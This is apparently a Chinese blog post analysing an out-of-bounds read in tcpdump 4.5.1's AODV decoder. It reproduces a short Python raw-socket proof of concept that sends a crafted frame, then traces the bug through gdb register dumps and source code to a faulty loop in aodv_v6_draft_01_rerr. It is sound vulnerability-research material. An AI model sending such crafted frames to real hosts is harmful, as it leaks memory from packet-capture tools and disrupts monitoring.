









Author:wnagzihxa1n
E-Mail:wnagzihxa1n@gmail.com
这是第三篇，目测也是个越界读取导致的不可靠数据输出
我们使用4.5.1版本，下载编译参考
先测试Poc的有效性，启动Tcpdump
wnagzihxain@toT0C:~$ sudo tcpdump -i ens33 -s 0 -n -v
修改作者的Poc里的网卡为测试系统的网卡
#!/usr/bin/env python
from socket import socket, AF_PACKET, SOCK_RAW
s = socket(AF_PACKET, SOCK_RAW)
s.bind(("ens33", 0))
aovd_frame = "\x00\x00\x00\x00\x00\x00\x00\x00\x8c\x7a\xdf\x6f\x08\x00\x45\x00\xe6\x3d\xf3\x7f\x40\x00\x40\x11\x30\xc6\x0a\x01\x01\x68\x0a\x02\x02\x02\x02\x8e\x0d\x00\x4b\x00\x00\xe8\x12\x00\x00\x00\x00\x1f\xc6\x51\x35\x97\x00\x24\x8c\x7a\xdf\x6f\x08\x00\x45\x00\xe6\x3d\xf3\x7f\x40\x00\x40\x11\x30\xc6\x0a\x01\x01"
s.send(aovd_frame)
跑起来，发现很多输出，但是没有Crash（漏洞的标题就只是不可靠的输出==>泄露数据）

gdb调试模式启动tcpdump
wnagzihxain@toT0C:~$ sudo gdb tcpdump
设置参数
gdb-peda$ set args -i ens33 -s 0 -n -v
这里直接执行Poc是没用的，因为不会触发到异常导致断下，所以需要根据作者提供的信息，找到漏洞触发的函数，结合IDA静态分析触发漏洞的点
不过作者并没有说什么有用的信息，也没有指出有问题的函数是哪个，喵喵喵？？？
The application decoder for the Ad hoc On-Demand Distance Vector (AODV)
protocol fails to perform input validation and performs unsafe
out-of-bound accesses. The application will usually not crash, but
perform out-of-bounds accesses and output/leak larger amounts of invalid
data, which might lead to dropped packets. It is unknown if other
payload exists that might trigger segfaults.
那这个就很尴尬了，我们来尝试其它办法找到触发漏洞的函数
想起前两篇文章里都是直接Crash下断，然后使用bt命令回溯函数调用栈，而这里也是类似的，所以我们直接读源码，虽然没有读过，但是可以尝试下
首先是分析前两篇文章中的函数调用路径

最后的分叉点是ethertype_print()，我们分析其源码

这个函数是一个巨大的switch/case，我们直接调试，确定传入的参数
[----------------------------------registers-----------------------------------]
EAX: 0x800
EBX: 0x8164000 --> 0x8163ef0 --> 0x1
ECX: 0x4b ('K')
EDX: 0x4b ('K')
ESI: 0x8235058 --> 0x80f3790 (<pcap_read_linux_mmap_v3>: push ebp)
EDI: 0x0
EBP: 0xbfffe258 --> 0xbfffe288 --> 0xbfffe2b8 --> 0x4b ('K')
ESP: 0xbfffe1fc --> 0x806a8b2 (<ether_print+807>: add esp,0x20)
EIP: 0x806aa2b (<ethertype_print>: push ebp)
EFLAGS: 0x200296 (carry PARITY ADJUST zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
0x806aa24 <netanalyzer_transparent_if_print+97>: mov eax,0x1a
0x806aa29 <netanalyzer_transparent_if_print+102>: leave
0x806aa2a <netanalyzer_transparent_if_print+103>: ret
=> 0x806aa2b <ethertype_print>: push ebp
0x806aa2c <ethertype_print+1>: mov ebp,esp
0x806aa2e <ethertype_print+3>: sub esp,0x18
0x806aa31 <ethertype_print+6>: mov eax,DWORD PTR [ebp+0xc]
0x806aa34 <ethertype_print+9>: mov WORD PTR [ebp-0xc],ax
[------------------------------------stack-------------------------------------]
0000| 0xbfffe1fc --> 0x806a8b2 (<ether_print+807>: add esp,0x20)
0004| 0xbfffe200 --> 0x8233a20 --> 0x0
0008| 0xbfffe204 --> 0x800
0012| 0xbfffe208 --> 0xb7a16094 --> 0x3de60045
0016| 0xbfffe20c --> 0x3d ('=')
0020| 0xbfffe210 --> 0x3d ('=')
0024| 0xbfffe214 --> 0xb7c22798 --> 0x52b
0028| 0xbfffe218 --> 0xb7c5e0cb (<_IO_vfprintf_internal+11>: add ebx,0x16ff35)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Breakpoint 4, 0x0806aa2b in ethertype_print ()
一共5个参数，我们关注第二个参数即可，因为后面的switch就是根据第二个参数ether_type来判断的
0004| 0xbfffe200 --> 0x8233a20 --> 0x0
0008| 0xbfffe204 --> 0x800
0012| 0xbfffe208 --> 0xb7a16094 --> 0x3de60045
0016| 0xbfffe20c --> 0x3d ('=')
0020| 0xbfffe210 --> 0x3d ('=')
确定了ether_type是0x0800
我们根据源码中的定义，找到0x0800的宏定义
#ifndef ETHERTYPE_IP
#define ETHERTYPE_IP 0x0800 /* IP protocol */
#endif
找到对应case分支
case ETHERTYPE_IP:
ip_print(ndo, p, length);
return (1);
我们接着调试，确定参数，其实这里参数就是原来的参数
[----------------------------------registers-----------------------------------]
EAX: 0x800
EBX: 0x8164000 --> 0x8163ef0 --> 0x1
ECX: 0x4b ('K')
EDX: 0x4b ('K')
ESI: 0x8235058 --> 0x80f3790 (<pcap_read_linux_mmap_v3>: push ebp)
EDI: 0x0
EBP: 0xbfffe1f8 --> 0xbfffe258 --> 0xbfffe288 --> 0xbfffe2b8 --> 0x4b ('K')
ESP: 0xbfffe1d0 --> 0x8233a20 --> 0x0
EIP: 0x806abd4 (<ethertype_print+425>: call 0x8073982 <ip_print>)
EFLAGS: 0x200292 (carry parity ADJUST zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
0x806abcb <ethertype_print+416>: push DWORD PTR [ebp+0x14]
0x806abce <ethertype_print+419>: push DWORD PTR [ebp+0x10]
0x806abd1 <ethertype_print+422>: push DWORD PTR [ebp+0x8]
=> 0x806abd4 <ethertype_print+425>: call 0x8073982 <ip_print>
0x806abd9 <ethertype_print+430>: add esp,0x10
0x806abdc <ethertype_print+433>: mov eax,0x1
0x806abe1 <ethertype_print+438>: jmp 0x806ae89 <ethertype_print+1118>
0x806abe6 <ethertype_print+443>: sub esp,0x4
Guessed arguments:
arg[0]: 0x8233a20 --> 0x0
arg[1]: 0xb7a16094 --> 0x3de60045
arg[2]: 0x3d ('=')
[------------------------------------stack-------------------------------------]
0000| 0xbfffe1d0 --> 0x8233a20 --> 0x0
0004| 0xbfffe1d4 --> 0xb7a16094 --> 0x3de60045
0008| 0xbfffe1d8 --> 0x3d ('=')
0012| 0xbfffe1dc --> 0xb7ffd340 --> 0x8049250 ("GLIBC_2.0")
0016| 0xbfffe1e0 --> 0x1
0020| 0xbfffe1e4 --> 0x1
0024| 0xbfffe1e8 --> 0x0
0028| 0xbfffe1ec --> 0xb7c60800 (<__vprintf+32>: (bad))
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
0x0806abd4 in ethertype_print ()
这里为了确定问题在ip_print()函数里，直接步过观察输出
非常多的输出，可以确定问题就在ip_print()函数里
我们先分析ip_print()函数的源码，该源码在print-ip.c文件里，其中并没有循环调用，可以猜测应该是调用了某个函数，才触发漏洞的，所以我们遇到函数调用直接步过，然后观察是否有大量数据输出
在0x8073322 <ip_print_demux>发现输出触发漏洞

在源码里找到该函数，发现没有循环输出，继续猜测是子函数触发漏洞，依旧使用步过函数调用的方式来确定
下个断点，重新跑起来跟入
在0x80bbe06 <udp_print>触发

重复上述步骤，先观察源码内是否存在循环等输出操作，那就可能是触发的地方，如果没有，那就应该是在子函数里触发漏洞
在udp_print()里漫长的单步时，突然出现了一个函数aovd_print()
[----------------------------------registers-----------------------------------]
EAX: 0x0
EBX: 0xb7a165c8 --> 0xd8e02
ECX: 0x7fffffe1
EDX: 0xb7a165d0 --> 0x12
ESI: 0xb7a165b4 --> 0x3de60045
EDI: 0xb7a165d0 --> 0x12
EBP: 0xbfffe0f8 --> 0xbfffe148 --> 0xbfffe1c8 --> 0xbfffe1f8 --> 0xbfffe258 --> 0xbfffe288 (--> ...)
ESP: 0xbfffe0a0 --> 0xb7a165d0 --> 0x12
EIP: 0x80bc6c9 (<udp_print+2243>: call 0x8053732 <aodv_print>)
EFLAGS: 0x200296 (carry PARITY ADJUST zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
0x80bc6c4 <udp_print+2238>: push eax
0x80bc6c5 <udp_print+2239>: push DWORD PTR [ebp+0xc]
0x80bc6c8 <udp_print+2242>: push edx
=> 0x80bc6c9 <udp_print+2243>: call 0x8053732 <aodv_print>
0x80bc6ce <udp_print+2248>: add esp,0x10
0x80bc6d1 <udp_print+2251>: jmp 0x80bccd8 <udp_print+3794>
0x80bc6d6 <udp_print+2256>: cmp WORD PTR [ebp-0x28],0x1f4
0x80bc6dc <udp_print+2262>: je 0x80bc6e6 <udp_print+2272>
Guessed arguments:
arg[0]: 0xb7a165d0 --> 0x12
arg[1]: 0xe621
arg[2]: 0x0
[------------------------------------stack-------------------------------------]
0000| 0xbfffe0a0 --> 0xb7a165d0 --> 0x12
0004| 0xbfffe0a4 --> 0xe621
0008| 0xbfffe0a8 --> 0x0
0012| 0xbfffe0ac --> 0xb7dce000 --> 0x1b1db0
0016| 0xbfffe0b0 --> 0x4000 ('')
0020| 0xbfffe0b4 --> 0x8108028 --> 0x4000 ('')
0024| 0xbfffe0b8 --> 0x0
0028| 0xbfffe0bc --> 0xb7a165d0 --> 0x12
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
0x080bc6c9 in udp_print ()
gdb-peda$
目测就是漏洞函数，因为作者在漏洞说明里提到过Ad hoc On-Demand Distance Vector (AODV)，原来是这个意思，单步步过确认

Nice，就是这里了
这次可以仔细看看源码了
虽然依旧是各种switch/case

不怕的，继续跟

这个函数名很有意思，下个断点先
0x80538b5 <aodv_print+387>: call 0x805364b <aodv_v6_draft_01_rerr>
来看源码，可以看到问题就出在这里了
static void
#ifdef INET6
aodv_v6_draft_01_rerr(const union aodv *ap, u_int length)
#else
aodv_v6_draft_01_rerr(const union aodv *ap _U_, u_int length)
#endif
{
#ifdef INET6
const struct rerr_unreach6_draft_01 *dp6 = NULL;
int i, j, n, trunc;
i = length - offsetof(struct aodv_rerr, r);
j = sizeof(ap->rerr.r.dest6_draft_01[0]);
dp6 = &ap->rerr.r.dest6_draft_01[0];
n = ap->rerr.rerr_dc * j;
printf(" rerr %s [items %u] [%u]:",
ap->rerr.rerr_flags & RERR_NODELETE ? "[D]" : "",
ap->rerr.rerr_dc, length);
trunc = n - (i/j);
for (; i -= j >= 0; ++dp6) {
printf(" {%s}(%ld)", ip6addr_string(&dp6->u_da),
(unsigned long)EXTRACT_32BITS(&dp6->u_ds));
}
if (trunc)
printf("[|rerr]");
#else
printf(" rerr %u", length);
#endif
}
这里进行输出

继续循环

然后这个循环的次数存储在ebp - 0x18里，我们输出它的值是0x0000e618
[----------------------------------registers-----------------------------------]
EAX: 0x1
EBX: 0x0
ECX: 0x7ffffff8
EDX: 0xb7dcf870 --> 0x0
ESI: 0xb7a16094 --> 0x3de60045
EDI: 0xb7a160b0 --> 0x12
EBP: 0xbfffe068 --> 0xbfffe098 --> 0xbfffe0f8 --> 0xbfffe148 --> 0xbfffe1c8 --> 0xbfffe1f8 (--> ...)
ESP: 0xbfffe040 --> 0xb7a16094 --> 0x3de60045
EIP: 0x805370d (<aodv_v6_draft_01_rerr+194>: sub DWORD PTR [ebp-0x18],eax)
EFLAGS: 0x200a03 (CARRY parity adjust zero sign trap INTERRUPT direction OVERFLOW)
[-------------------------------------code-------------------------------------]
0x8053705 <aodv_v6_draft_01_rerr+186>: not eax
0x8053707 <aodv_v6_draft_01_rerr+188>: shr eax,0x1f
0x805370a <aodv_v6_draft_01_rerr+191>: movzx eax,al
=> 0x805370d <aodv_v6_draft_01_rerr+194>: sub DWORD PTR [ebp-0x18],eax
0x8053710 <aodv_v6_draft_01_rerr+197>: cmp DWORD PTR [ebp-0x18],0x0
0x8053714 <aodv_v6_draft_01_rerr+201>: jne 0x80536c9 <aodv_v6_draft_01_rerr+126>
0x8053716 <aodv_v6_draft_01_rerr+203>: cmp DWORD PTR [ebp-0xc],0x0
0x805371a <aodv_v6_draft_01_rerr+207>: je 0x805372c <aodv_v6_draft_01_rerr+225>
[------------------------------------stack-------------------------------------]
0000| 0xbfffe040 --> 0xb7a16094 --> 0x3de60045
0004| 0xbfffe044 --> 0xb7a160b0 --> 0x12
0008| 0xbfffe048 --> 0xbfffe098 --> 0xbfffe0f8 --> 0xbfffe148 --> 0xbfffe1c8 --> 0xbfffe1f8 (--> ...)
0012| 0xbfffe04c --> 0xb7a16118 --> 0x0
0016| 0xbfffe050 --> 0xe618
0020| 0xbfffe054 --> 0x14
0024| 0xbfffe058 --> 0x0
0028| 0xbfffe05c --> 0xfffff47f
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
0x0805370d in aodv_v6_draft_01_rerr ()
gdb-peda$ x/x $ebp-0x18
0xbfffe050: 0x0000e618
gdb-peda$
这个值是经过了几次测试输出之后的，经过了几次自减一，真实值会多一点
那么泄露点在这里，我们要找到哪里计算的这个长度
依旧是最开始的地方进行单步调试观察，此处可以从源码入手，其实都可以的
我们从ip_print()开始跟，这个地方有个技巧，就是我们分析的时候有时候会有其它数据包的干扰，可能捕获到的是其它正常数据，此时我们可以根据eax寄存器为0x0800以及第三个参数是0x3d ('=')来判断是否是我们的Poc数据帧，如图，此时长度是0x3d，不过这个长度并不是后面的长度数据
[----------------------------------registers-----------------------------------]
EAX: 0x800
EBX: 0x8164000 --> 0x8163ef0 --> 0x1
ECX: 0x4b ('K')
EDX: 0x4b ('K')
ESI: 0x8235058 --> 0x80f3790 (<pcap_read_linux_mmap_v3>: push ebp)
EDI: 0x0
EBP: 0xbfffe1f8 --> 0xbfffe258 --> 0xbfffe288 --> 0xbfffe2b8 --> 0x4b ('K')
ESP: 0xbfffe1d0 --> 0x8233a20 --> 0x0
EIP: 0x806abd4 (<ethertype_print+425>: call 0x8073982 <ip_print>)
EFLAGS: 0x200292 (carry parity ADJUST zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
0x806abcb <ethertype_print+416>: push DWORD PTR [ebp+0x14]
0x806abce <ethertype_print+419>: push DWORD PTR [ebp+0x10]
0x806abd1 <ethertype_print+422>: push DWORD PTR [ebp+0x8]
=> 0x806abd4 <ethertype_print+425>: call 0x8073982 <ip_print>
0x806abd9 <ethertype_print+430>: add esp,0x10
0x806abdc <ethertype_print+433>: mov eax,0x1
0x806abe1 <ethertype_print+438>: jmp 0x806ae89 <ethertype_print+1118>
0x806abe6 <ethertype_print+443>: sub esp,0x4
Guessed arguments:
arg[0]: 0x8233a20 --> 0x0
arg[1]: 0xb7a16094 --> 0x3de60045
arg[2]: 0x3d ('=')
[------------------------------------stack-------------------------------------]
0000| 0xbfffe1d0 --> 0x8233a20 --> 0x0
0004| 0xbfffe1d4 --> 0xb7a16094 --> 0x3de60045
0008| 0xbfffe1d8 --> 0x3d ('=')
0012| 0xbfffe1dc --> 0xb7ffd340 --> 0x8049250 ("GLIBC_2.0")
0016| 0xbfffe1e0 --> 0x1
0020| 0xbfffe1e4 --> 0x1
0024| 0xbfffe1e8 --> 0x0
0028| 0xbfffe1ec --> 0xb7c60800 (<__vprintf+32>: (bad))
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Breakpoint 9, 0x0806abd4 in ethertype_print ()
然后跟入到内部
[----------------------------------registers-----------------------------------]
EAX: 0x11
EBX: 0x11
ECX: 0x8235bac ("4:40.665021 IP truncated-ip - 58880 bytes missing! (tos 0x0, ttl 64, id 62335, offset 0, flags [DF], proto UDP (17), length 58941, bad cksum 30c6 (->49c3)!)\n")
EDX: 0x11
ESI: 0x0
EDI: 0x8231d00 --> 0x20004644 ('DF')
EBP: 0xbfffe1c8 --> 0xbfffe1f8 --> 0xbfffe258 --> 0xbfffe288 --> 0xbfffe2b8 --> 0x4b ('K')
ESP: 0xbfffe150 --> 0x8233a20 --> 0x0
EIP: 0x8073e54 (<ip_print+1234>: call 0x8073322 <ip_print_demux>)
EFLAGS: 0x200292 (carry parity ADJUST zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
0x8073e4b <ip_print+1225>: sub esp,0x8
0x8073e4e <ip_print+1228>: push DWORD PTR [ebp-0x4c]
0x8073e51 <ip_print+1231>: push DWORD PTR [ebp-0x5c]
=> 0x8073e54 <ip_print+1234>: call 0x8073322 <ip_print_demux>
0x8073e59 <ip_print+1239>: add esp,0x10
0x8073e5c <ip_print+1242>: jmp 0x8073f24 <ip_print+1442>
0x8073e61 <ip_print+1247>: mov eax,ds:0x8166fa0
0x8073e66 <ip_print+1252>: mov eax,DWORD PTR [eax+0x1c]
Guessed arguments:
arg[0]: 0x8233a20 --> 0x0
arg[1]: 0xbfffe18c --> 0xb7a16094 --> 0x3de60045
[------------------------------------stack-------------------------------------]
0000| 0xbfffe150 --> 0x8233a20 --> 0x0
0004| 0xbfffe154 --> 0xbfffe18c --> 0xb7a16094 --> 0x3de60045
0008| 0xbfffe158 --> 0x49c3
0012| 0xbfffe15c --> 0x0
0016| 0xbfffe160 --> 0xb7fff000 --> 0x23f3c
